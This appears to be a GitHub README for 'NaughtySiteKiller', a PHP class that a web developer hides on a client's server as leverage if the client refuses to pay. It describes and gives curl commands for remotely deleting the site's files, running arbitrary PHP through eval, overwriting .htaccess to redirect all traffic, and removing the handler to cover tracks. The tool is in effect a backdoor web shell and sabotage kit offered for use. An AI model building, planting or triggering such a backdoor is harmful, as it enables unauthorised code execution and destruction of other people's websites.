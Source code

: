 ## Is Your Client a Naughty Client?

### Naughty Killer Class

Ah, the joy of building a website for a "naughty" client who refuses to pay after getting full access to their cPanel. Don't fret! Instead of chasing them down, just drop the **NaughtySiteKiller** class on their server as a failsafe. This class lets you send HTTP requests to perform some rather *justifiable* actions on their website—whether it's deleting files, creating fake templates, or obstructing their site's content. It's the digital equivalent of "you won't pay? Fine, enjoy your broken website.

#### Key Features:
1. **Authentication**: Validates requests using Bearer or Basic token schemes.
2. **Token Generation**: Generate tokens from a password for authentication purposes.
3. **Action Handling**: Executes actions like `kill` (deletes files and self-destructs the script) and `template` (creates template files and updates `.htaccess`).
4. **Security**: Ensures that requests are authenticated by comparing the hashed token value.

---

### Usage Examples


Simply place the `NaughtySiteKiller` class on their server as an insurance measure. It supports token-based authentication and various actions like deleting files, creating templates, and updating `.htaccess` securely.

#### 1. Generating a Hashed Token

To authenticate requests, generate a token by hashing a password using the `sha256` algorithm. This token will be used for all incoming HTTP requests.

**Example**:
```php
$password = 'super_secret_password';
$token = $webKill->generateToken($password);  // Returns: "Bearer <hashed-password>"
```

Alternatively, you can directly hash the password:
```php
$password = 'super_secret_password';
echo hash('sha256', $password);  // Outputs the hashed token
```

---

#### 2. Handling the Incoming Request

Place the `NaughtySiteKiller` handler on the public directory of the website where it can be accessed through HTTP requests. This handler will process incoming requests, validate the authorization token, check the requested action (`kill`, `execute`, `template`, `self-key`), and execute the appropriate method.

**Example Usage**:
```php
// path/to/public_html/psk.php 
<?php
use \PeterUjah\NaughtySiteKiller;

$psk = new NaughtySiteKiller('<your-secure-bearer-hashed-token-here>');
try {
    $psk->run();  // Run the script based on incoming HTTP request
} catch (Exception $e) {
    $psk->response("Unknown error occurred: {$e->getMessage()}", 500);  // Handle errors
}
```

> **Note**: Replace `<your-secure-bearer-hashed-token-here>` with the hashed token you generated in the previous step.

---

### Payload Fields

The following fields can be included in the payload when sending a request:

```php
$request = [
    'action'      => 'kill', // Action to perform: 'kill', 'execute', 'template', or 'self-key'.
    'content'     => 'Content for the template, execute (used in both HTML and PHP files when performing kill action, or for template creation).',
    'htmlContents'=> 'Content for the template.html file (used when performing kill action).', // HTML content for the template.
    'phpContents' => 'Content for the template.php file (used when performing kill action).', // PHP content for the template.
    'name'        => 'Filename to use when performing template action.', // Custom filename for the template.
    'htaccess'    => 'Content for the .htaccess file (overwrites existing .htaccess).',
];
```

#### Explanation of Fields:

- **`action`** (string): Specifies which action to perform:
  - `'kill'`: Deletes files including self and creates `index.php` and `index.html` files (HTML and PHP).
  - `'execute'`: Execute a string as PHP code using `eval` function. The instructions should be placed in `contents`.
  - `'template'`: Creates template file `<name>.php` and modifies `.htaccess` to redirect all website request to `<name>.php` if no custom htaccess content is provided.
  - `'self-key'`: self-destructing, delete the handler file only.
  
- **`content`** (string): Content to include in the generated template files. Used for both HTML and PHP files during the `kill` action, or for the `template` action.

- **`htmlContents`** (string): Content to be placed in the `<template-name>.html` file when performing the `kill` action.

- **`phpContents`** (string): Content to be placed in the `<template-name>.php` file when performing the `kill` action.

- **`name`** (string): The name of the template file to use when performing the `template` action. Default is `__template.php` if not specified.

- **`htaccess`** (string): The content for the `.htaccess` file. This will overwrite any existing `.htaccess` file during the `template` action. If not provided it will use default to redirect requests to the `<template-name>.php`.

---

### Payload Requests Examples

Here are examples of how to send payload requests using `curl` for the different actions (`kill`, `template`, and `self-key`), including the Bearer token in the header.

### 1. Kill Action Request (Deletes all files and creates template files)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "kill",
           "phpContents": "<?php echo \"Hello, World!\"; ?>",
           "htmlContents": "<html><body><h1>Hello, World!</h1></body></html>"
        }'
```

---

### 2. Execute Action (Run custom code on the server—because we trust you)

The Execute Action allows you to send custom PHP code to be executed on the server. It's like a magic wand for your commands.

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "execute",
           "contents": "return \"Hello, Naughty Client!\";"
        }'
```

**Output:**

This will execute the PHP code and you will receive the following response:

```php
{
    "message": "Execution completed",
    "result": "Hello, Naughty Client!"
}
```

---

#### Explanation:

- `action`: Set to `"kill"` to trigger the kill action.
- `phpContents`: Content for the `template.php` file.
- `htmlContents`: Content for the `template.html` file.

### 3. Template Action Request (Creates template files and updates `.htaccess`)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "template",
           "content": "<?php echo \"Welcome to the template!\"; ?>",
           "name": "custom_template.php",
           "htaccess": "RewriteEngine On\nRewriteRule ^.*$ custom_template.php [L,QSA]"
        }'
```

#### Explanation:

- `action`: Set to `"template"` to create a template file and update `.htaccess`.
- `content`: Content for the template (PHP code).
- `name`: Custom name for the template file (`custom_template.php`).
- `htaccess`: Custom `.htaccess` content to redirect all requests to the template.

---

### 4. **Self-Key Action Request (Reserved for future use)**

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "self-key"
        }'
```

#### Explanation:
- `action`: Set to `"self-key"`, delete the handler file only.

---

### Notes:
- **Authorization**: Replace `YOUR_BEARER_TOKEN` with the actual Bearer token you are using for authentication.
- **Server URL**: Replace `http://your-server-url/naughty.php` with the actual URL of your script.
- **Payload**: The payload for each action is sent as JSON in the body of the request using the `-d` flag with `curl`.
